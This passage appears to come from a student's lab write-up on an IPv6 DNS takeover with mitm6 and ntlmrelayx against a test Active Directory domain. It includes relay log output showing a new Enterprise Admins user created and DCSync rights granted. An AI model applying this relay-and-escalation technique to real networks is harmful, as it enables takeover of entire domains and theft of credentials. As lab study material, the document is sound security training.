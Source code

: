 <img src="./images/IPv6_DNS_Takeover_via_mitm6_3.png" alt="Output in the lootme directory: user groups" width="800"/>

Logging in as a domain administrator, e.g. `MARVEL\Administrator`, will lead to
the creation of a new user account once `ntlmrelayx` has relayed administrator.
In contrast to the video, this works only if the `--adcs` flag is set. (As per
a hint on Discord, after I had tried this without success in the same way that
was shown in the video.)

Also in contrast to the video, there is no output of an access control list.
However, a newly created user will be added to a group with elevated privileges
(Enterprise Admins!), and the login credentials for this user a printed. The new
user allows the execution of a DCSync attack with `secretsdump.py`, which dumps
the entire secrets of the domain. The password hashes that we gain in this data
dump let us own the entire domain. (This topic will not be covered further here.)
So, when IPv6 MITM is possible and a domain admin logs in after we have started
our tools, it will be **instant game over**. This is an extremely vulnerable
feature that is enabled in Active Directory by default.

```
(...)

[*] HTTPD(80): Connection from ::ffff:10.0.2.4 controlled, attacking target ldaps://10.0.2.15
[-] Authenticating against ldaps://10.0.2.15 as SPIDERMAN/PETERPARKER FAILED
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/ADMINISTRATOR SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=MARVEL,DC=local
[*] Adding new user with username: HnlbLdcDQz and password: BD+L:itq3Uq#;ah result: OK
[*] Querying domain security descriptor
[*] Success! User HnlbLdcDQz now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250803-074630.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting.
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Connection from ::ffff:10.0.2.6 controlled, attacking target ldaps://10.0.2.15
[*] HTTPD(80): Authenticating against ldaps://10.0.2.15 as MARVEL/ADMINISTRATOR SUCCEED

(...)
```